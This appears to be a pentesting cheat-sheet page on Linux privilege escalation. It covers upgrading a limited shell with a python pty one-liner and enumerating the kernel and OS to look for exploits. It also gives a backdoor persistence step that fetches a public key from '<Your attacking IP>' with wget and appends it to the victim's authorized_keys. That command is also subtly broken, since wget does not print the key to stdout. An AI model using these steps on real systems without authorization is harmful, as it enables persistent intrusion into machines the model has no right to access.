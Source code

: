 # Privilege escalation: Linux

Sure, most things on a network are Windows, but there are lots of other devices that run Linux, like firewalls, routers and web servers. Once you've got a low-privilege shell on Linux, privilege escalation usually happens via kernel exploit or by taking advantage of misconfigurations.

## Obtaining Full Shell

Some systems do not give you full shell access by default, or if they do, they may miss out important things like the PATH variable. To correct this, try the following:

```bash
python -c 'import pty;pty.spawn("/bin/bash")' # Spawns a BASH shell
export TERM=xterm # Helps with commands like 'clear
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
export SHELL=bash
```

## Easy re-entry 

It might be advantageous to be able to log back in through a more...official means. If the victim runs an SSH server and you have control of a user account, you can add your public key to their 'authorized\_keys' file. This will allow you to sign back in using SSH. Doing so has a few advantages:

1. You don't need to re-deploy your foothold-obtaining hacks
2. You have access to niceties such as TAB completion and arrow-key history browsing
3. It is essential to pivoting using proxychains

To do so, check if the user has a file in their home directory under a hidden folder called '.ssh' called 'authorized\_keys'. If not, create the file (and folder if necessary) and apply the the permissions 600 to it. Once that file has been confirmed to exist, host your public key (typically in ~/.ssh/id\_rsa.pub) on a webserver and run the following on the victim:

```bash
echo $(wget https://<Your attacking IP>/id_rsa.pub) >> ~/.ssh/authorized_keys
```
This will append your public key to the server's whitelist for access without passwords for the user you run this as.

## Gathering system information

### Kernel and architecture

Check system architecture to identify kernel exploits:

```text
uname -a
cat /proc/version
cat /etc/issue
hostname
```

Exploits can be discovered by using [Exploit-DB](https://www.exploit-db.com/) or searchsploit in Kali:
